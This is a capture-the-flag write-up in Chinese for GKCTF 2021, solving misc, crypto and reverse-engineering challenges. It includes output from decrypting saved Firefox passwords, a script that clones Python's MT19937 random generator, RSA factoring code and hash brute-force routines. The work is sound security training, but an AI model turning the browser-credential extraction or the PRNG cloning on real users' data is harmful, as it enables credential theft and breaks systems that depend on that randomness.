flag{a3c7e4e5-9b9d-ad20-0327-288a235370ea}
```

### 银杏岛の奇妙冒险

进游戏后发现有书, 全局搜索游戏中书上的内容


可以找到, 那么尝试在其中寻找flag, 成功拿到四部分组成的flag


flag

```
GKCTF{w3lc0me_t0_9kctf_2021_Check_1n}
```

### FireFox Forensics

firefox decrypt

```
python3 firepwd.py -d ./decode/
globalSalt: b'1e26e84b2f01da28d865e7258f9003d16b9c43f2'
 SEQUENCE {
   SEQUENCE {
     OBJECTIDENTIFIER 1.2.840.113549.1.5.13 pkcs5 pbes2
     SEQUENCE {
       SEQUENCE {
         OBJECTIDENTIFIER 1.2.840.113549.1.5.12 pkcs5 PBKDF2
         SEQUENCE {
           OCTETSTRING b'66a735e17767b37d83d464126b36d4269243f9e0c99405ccd68f442798f83129'
           INTEGER b'01'
           INTEGER b'20'
           SEQUENCE {
             OBJECTIDENTIFIER 1.2.840.113549.2.9 hmacWithSHA256
           }
         }
       }
       SEQUENCE {
         OBJECTIDENTIFIER 2.16.840.1.101.3.4.1.42 aes256-CBC
         OCTETSTRING b'24eb241594de7ab37ec379d9ba06'
       }
     }
   }
   OCTETSTRING b'946322a2b2978db6601e449e1bdf7c4d'
 }
clearText b'70617373776f72642d636865636b0202'
password check? True
 SEQUENCE {
   SEQUENCE {
     OBJECTIDENTIFIER 1.2.840.113549.1.5.13 pkcs5 pbes2
     SEQUENCE {
       SEQUENCE {
         OBJECTIDENTIFIER 1.2.840.113549.1.5.12 pkcs5 PBKDF2
         SEQUENCE {
           OCTETSTRING b'56722302469f529a29dc73f28d6af3ed0ee483cceff05772e96e2313336816fd'
           INTEGER b'01'
           INTEGER b'20'
           SEQUENCE {
             OBJECTIDENTIFIER 1.2.840.113549.2.9 hmacWithSHA256
           }
         }
       }
       SEQUENCE {
         OBJECTIDENTIFIER 2.16.840.1.101.3.4.1.42 aes256-CBC
         OCTETSTRING b'ef6a4df3e5fd7608c97df9e22092'
       }
     }
   }
   OCTETSTRING b'51b24cd6a2672c312255d7f2dddeb67336fd56973b4302bb2eacf2270c251d41'
 }
clearText b'673dec57458fb95bd50bdc9198541038970e5b3d518973a40808080808080808'
decrypting login/password pairs
https://ctf.g1nkg0.com:b'admin',b'GKCTF{9cf21dda-34be-4f6c-a629-9c4647981ad7}'
```

得到 flag

```
GKCTF{9cf21dda-34be-4f6c-a629-9c4647981ad7}
```

### excel 骚操作

xlsx 以 zip 形式打开拿到 sheet.xml, 发现里面标了数据但是这个xlsx没显示出来, 新建一个把数据1涂黑可以得到二维码


汉信码扫描得到 flag



flag

```
flag{9ee0cb62-f443-4a72-e9a3-43c0b910757e}
```

### 0.03

NTFS数据流加密 > 360压缩包打开

[三分密码](https://zh.wikipedia.org/wiki/%E4%B8%89%E5%88%86%E5%AF%86%E7%A2%BC)

例子


```
    1       2       3
  -----   -----   -----
1 Q A Z   W S X   E D C
2 R F V   T G B   Y H N
3 U J M   I K O   L P /
  1 2 3   1 2 3   1 2 3
```

结合`311223313313112122312312313311`得到密码

```
EBCCAFDDCE
```

VeraCrypt 输入密码打开拿到真的 flag

```
flag{85ec0e23-ebbe-4fa7-9c8c-e8b743d0d85c}
```

### 问卷调查

flag

```
flag{787c37cc-5ec2-9aae-f9c5-c1cc624caec0}
```

## Crypto

### Random

MT19937 python的伪随机数 学到了

```
# -*-coding:utf-8-*-
'''
    @Use: cracking_random_number_generators
'''
from random import Random
from hashlib import md5

# right shift inverse
def inverse_right(res, shift, bits=32):
    tmp = res
    for i in range(bits // shift):
        tmp = res ^ tmp >> shift
    return tmp


# right shift with mask inverse
def inverse_right_mask(res, shift, mask, bits=32):
    tmp = res
    for i in range(bits // shift):
        tmp = res ^ tmp >> shift & mask
    return tmp

# left shift inverse
def inverse_left(res, shift, bits=32):
    tmp = res
    for i in range(bits // shift):
        tmp = res ^ tmp << shift
    return tmp


# left shift with mask inverse
def inverse_left_mask(res, shift, mask, bits=32):
    tmp = res
    for i in range(bits // shift):
        tmp = res ^ tmp << shift & mask
    return tmp

# extract number
def extract_number(y):
    y = y ^ y >> 11
    y = y ^ y << 7 & 2636928640
    y = y ^ y << 15 & 4022730752
    y = y ^ y >> 18
    return y & 0xffffffff

def recover(y):
    y = inverse_right(y, 18)
    y = inverse_left_mask(y, 15, 4022730752)
    y = inverse_left_mask(y, 7, 2636928640)
    y = inverse_right(y, 11)
    return y & 0xffffffff

def clone_mt(number):
    gen = Random()
    gen.setstate((3, tuple(number+[0]), None))
    return gen

if __name__ == '__main__':
    with open('random.txt', 'r') as fp:
        data = fp.read().split('\n')
    # print(data)
    number = []
    for line in data:
        if len(line) < 12:
            # number.append(bin(int(line)))
            number.append(recover(int(line)))
        elif 12 <= len(line) <= 24:
            data_64 = bin(int(line))[2:].zfill(64)
            for i in range(64, 0, -32):
                num = int(data_64[i-32:i], 2)
                # number.append(bin(int(num)))
                number.append(recover(int(num)))
        elif len(line) > 24:
            data_96 = bin(int(line))[2:].zfill(96)
            for i in range(96, 0, -32):
                num = int(data_96[i-32:i], 2)
                # number.append(bin(int(num)))
                number.append(recover(int(num)))
    # print(number)
    my_random = clone_mt(number)

    for _ in range(624):
        my_random.getrandbits(32)

    key = my_random.getrandbits(32)
    print(key)
    flag = 'GKCTF{' + md5(str(key).encode()).hexdigest() + '}'
    print(flag)
```

flag

```
GKCTF{14c71fec812b754b2061a35a4f6d8421}
```

### RRRRSA

脚本

```
# -*-coding:utf-8-*-
from Crypto.Util.number import *
from gmpy2 import gcd
import libnum
import gmpy2

n1=75003557379080252219517825998990183226659117019770735080523409561757225883651040882547519748107588719498261922816865626714101556207649929655822889945870341168644508079317582220034374613066751916750036253423990673764234066999306874078424803774652754587494762629397701664706287999727238636073466137405374927829
c1=68111901092027813007099627893896838517426971082877204047110404787823279211508183783468891474661365139933325981191524511345219830693064573462115529345012970089065201176142417462299650761299758078141504126185921304526414911455395289228444974516503526507906721378965227166653195076209418852399008741560796631569
hint1=23552090716381769484990784116875558895715552896983313406764042416318710076256166472426553520240265023978449945974218435787929202289208329156594838420190890104226497263852461928474756025539394996288951828172126419569993301524866753797584032740426259804002564701319538183190684075289055345581960776903740881951
hint2=52723229698530767897979433914470831153268827008372307239630387100752226850798023362444499211944996778363894528759290565718266340188582253307004810850030833752132728256929572703630431232622151200855160886614350000115704689605102500273815157636476901150408355565958834764444192860513855376978491299658773170270
p1 = gcd(hint1 * pow(2021, 202020) - pow(2020, 202020) * pow(hint2 - 212121, 202020, n1), n1)

e1 = 65537
q1 = n1//p1
phi1 = (p1-1)*(q1-1)
d1 = inverse(e1, phi1)
# d1 = gmpy2.invert(e1, phi1)
p = pow(c1, d1, n1)

n2=114535923043375970380117920548097404729043079895540320742847840364455024050473125998926311644172960176471193602850427607899191810616953021324742137492746159921284982146320175356395325890407704697018412456350862990849606200323084717352630282539156670636025924425865741196506478163922312894384285889848355244489
c2=67054203666901691181215262587447180910225473339143260100831118313521471029889304176235434129632237116993910316978096018724911531011857469325115308802162172965564951703583450817489247675458024801774590728726471567407812572210421642171456850352167810755440990035255967091145950569246426544351461548548423025004
hint3=25590923416756813543880554963887576960707333607377889401033718419301278802157204881039116350321872162118977797069089653428121479486603744700519830597186045931412652681572060953439655868476311798368015878628002547540835719870081007505735499581449077950263721606955524302365518362434928190394924399683131242077
hint4=104100726926923869566862741238876132366916970864374562947844669556403268955625670105641264367038885706425427864941392601593437305258297198111819227915453081797889565662276003122901139755153002219126366611021736066016741562232998047253335141676203376521742965365133597943669838076210444485458296240951668402513
p2 = gcd(pow(hint3,212121,n2)*pow(2021,202020*212121,n2)- pow(hint4,202020,n2)*pow(2020,202020*212121,n2),n2)

e2 = 65537
q2 = n2//p2
phi2 = (p2-1)*(q2-1)
d2 = inverse(e2, phi2)
# d2 = gmpy2.invert(e2, phi2)
q = pow(c2, d2, n2)

n = p*q
c = 13492392717469817866883431475453770951837476241371989714683737558395769731416522300851917887957945766132864151382877462142018129852703437240533684604508379950293643294877725773675505912622208813435625177696614781601216465807569201380151669942605208425645258372134465547452376467465833013387018542999562042758
e = 65537
phi = (p-1)*(q-1)
d = inverse(e, phi)
# d = gmpy2.invert(e, phi)
m = pow(c, d, n)
print(long_to_bytes(m))
```

flag

```
GKCTF{f64310b5-d5e6-45cb-ae69-c86600cdf8d8}
```

### XOR

## RE

### QQQQT

脱壳



脱壳之后再打开，找到主要部分



base58



```
56fkoP8KhwCf3v7CEz >> 12t4tww3r5e77
```

然后访问了 .exe, 发现会弹窗



看到有个 readflag


猜测这个解密后的字符串就是 flag

```
flag{12t4tww3r5e77}
```

### Crash

通过 IDAGOHelper 还原函数名字, 找到主check点

```
__int64 __fastcall main_check(__int64 a1, __int64 a2, __int64 a3, __int64 a4, __int64 a5, __int64 a6, __int64 a7, unsigned __int64 a8)
{
  unsigned __int64 v8; // rcx
  int v9; // edx
  int v10; // er8
  int v11; // er9
  __int64 result; // rax
  int v13; // er8
  int v14; // er9
  __int64 v15; // r8
  int v16; // edx
  int v17; // er8
  int v18; // er9
  int v19; // er8
  int v20; // er9
  int v21; // er8
  __int64 v22; // r9
  __int64 v23; // [rsp+18h] [rbp-60h]
  __int64 v24; // [rsp+18h] [rbp-60h]
  __int64 v25; // [rsp+18h] [rbp-60h]
  __int64 v26; // [rsp+20h] [rbp-58h]
  int v27; // [rsp+28h] [rbp-50h]
  char v28[32]; // [rsp+30h] [rbp-48h] BYREF
  char v29[32]; // [rsp+50h] [rbp-28h] BYREF
  void *retaddr; // [rsp+78h] [rbp+0h] BYREF

  v8 = __readfsqword(0xFFFFFFF8);
  if ( (unsigned __int64)&retaddr <= *(_QWORD *)(v8 + 16) )
    runtime_morestack_noctxt(a1, a2, a3, v8, a5, a6);
  if ( a8 < 0x1E )
    runtime_panicSliceAlen(a1, a2, a8, 30, a5, a6);
  main_encrypto(a1, a2, a8, a7 + 6, a5, a6, a7 + 6, 24LL);
  result = v23;
  if ( v23 == 44 )
  {
    runtime_memequal(a1, a2, v9, (unsigned int)&unk_5507AF, v10, v11);
    if ( a8 < 0x22 )
      runtime_panicSliceAlen(a1, a2, a8, 34, v13, v14);
    runtime_stringtoslicebyte(a1, a2, a8, a7 + 30, v13, v14, (__int64)v28, a7 + 30, 4LL, 44LL);
    Encrypt_HashHex2(a1, a2, v27, v26, v15);
```

可以通过IDA查看到各个密码的长度和密钥, 用脚本进行爆破

```python
from Crypto.Cipher import DES3
import base64
import itertools
import string
import hashlib

def des3_cbc_decrypt(secret_key, secret_value, iv):
    unpad = lambda s: s[0:-ord(s[-1])]
    res = DES3.new(secret_key.encode("utf-8"), DES3.MODE_CBC, iv)
    base64_decrypted = base64.b64decode(secret_value.encode("utf-8"))
    encrypt_text = res.decrypt(base64_decrypted)
    result = unpad(encrypt_text.decode())
    return result

def sha256crash(sha256enc):
    code = ''
    strlist = itertools.product(string.ascii_letters + string.digits, repeat=4)

    for i in strlist:
        code = i[0] + i[1] + i[2] + i[3]
        encinfo = hashlib.sha256(code.encode()).hexdigest()
        if encinfo == sha256enc:
            return code
            break

def sha512crash(sha256enc):
    code = ''
    strlist = itertools.product(string.ascii_letters + string.digits, repeat=4)

    for i in strlist:
        code = i[0] + i[1] + i[2] + i[3]
        encinfo = hashlib.sha512(code.encode()).hexdigest()
        if encinfo == sha256enc:
            return code
            break

def md5crash(sha256enc):
    code = ''
    strlist = itertools.product(string.ascii_letters + string.digits, repeat=4)

    for i in strlist:
        code = i[0] + i[1] + i[2] + i[3]
        encinfo = hashlib.md5(code.encode()).hexdigest()
        if encinfo == sha256enc:
            return code
            break

if __name__ == '__main__':
    key = "WelcomeToTheGKCTF2021XXX"
    iv = b"1Ssecret"
    cipher = "o/aWPjNNxMPZDnJlNp0zK5+NLPC4Tv6kqdJqjkL0XkA="
    part1 = des3_cbc_decrypt(key, cipher, iv)
    part2 = sha256crash("6e2b55c78937d63490b4b26ab3ac3cb54df4c5ca7d60012c13d2d1234a732b74")
    part3 = sha512crash("6500fe72abcab63d87f213d2218b0ee086a1828188439ca485a1a40968fd272865d5ca4d5ef5a651270a52ff952d955c9b757caae1ecce804582ae78f87fa3c9")
    part4 = md5crash("ff6e2fd78aca4736037258f0ede4ecf0")
    flag = "GKCTF{" + part1 + part2 + part3 + part4 + "}"
    # GKCTF{87f645e9-b628-412f-9d7a-e402f20af940}
    print(flag)
```


## PWN

